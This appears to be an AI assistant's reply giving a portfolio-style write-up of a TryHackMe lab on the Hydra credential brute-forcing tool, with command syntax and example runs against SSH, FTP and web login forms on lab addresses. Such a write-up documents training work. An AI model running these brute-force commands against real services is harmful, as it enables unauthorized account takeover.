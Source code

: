 
Got it ✅ — here’s your **full GitHub-ready Hydra lab write-up** in one block so you can copy and paste directly into your `cybersecurity-labs-portfolio` repo.

````markdown
# 🐉 Hydra – Credential Brute-Forcing Lab

## 📄 Overview
This lab from TryHackMe demonstrates the use of **Hydra**, a tool for brute-forcing credentials on various authentication services such as **SSH, FTP, SNMP, and web applications**.  
It was completed in a controlled, authorized environment as part of my hands-on cybersecurity training.

---

## 📌 Objective
- Learn how to perform credential brute-forcing on multiple protocols.
- Understand Hydra syntax and its key options.
- Practice attacking SSH, FTP, and POST-based web forms.
- Interpret failed login responses for successful automation.

---

## 🛠 Tools Used
- **Hydra** – Credential brute-force tool  
- **Wordlists** – For testing possible passwords  
- **Kali Linux** – Attack platform  

---

## 🔍 Commands & Usage

### FTP
```bash
hydra -l user -P <filename> ftp://<IP_ADDRESS>
````

### SSH

```bash
hydra -l <username> -P <wordlist> <IP_ADDRESS> -t 4 ssh
```

**Options:**

* `-l` → Single username
* `-P` → Password list
* `-t` → Number of threads

---

## 🌐 POST Web Form

**Syntax:**

```bash
sudo hydra <username> -P <wordlist> <IP_ADDRESS> \
http-post-form "/<path>:username=^USER^&password=^PASS^:<invalid_response>" -v
```

**Parameters:**

* `http-post-form` → Indicates POST request type
* `<path>` → Login page URL path
* `<login_credentials>` → Fields for username and password
* `<invalid_response>` → Response text when login fails
* `-v` → Verbose mode

---

## 💡 Example Scenarios

**1. SSH Brute Force**

```bash
hydra -l admin -P passwords.txt 10.10.10.5 -t 4 ssh
```

**2. FTP Brute Force**

```bash
hydra -l testuser -P rockyou.txt ftp://10.10.10.8
```

**3. Web Form Brute Force**

```bash
hydra -l admin -P wordlist.txt 10.10.10.6 \
http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -v
```

---

## 📚 What I Learned

* How to configure and execute Hydra attacks on multiple services.
* The importance of selecting efficient **wordlists**.
* How to identify **failure messages** for web form brute-forcing.
* Balancing speed and detection with the `-t` option.
* Reinforcing the principle of **ethical hacking**: only perform testing in authorized environments.

---

*Lab completed as part of my ongoing cybersecurity learning journey.*

```

This is ready for pasting straight into your GitHub repo.  

If you want, I can now make you a **standard lab report template** so all future labs in your portfolio match this style perfectly. That will make the whole repo look organized and professional.
```
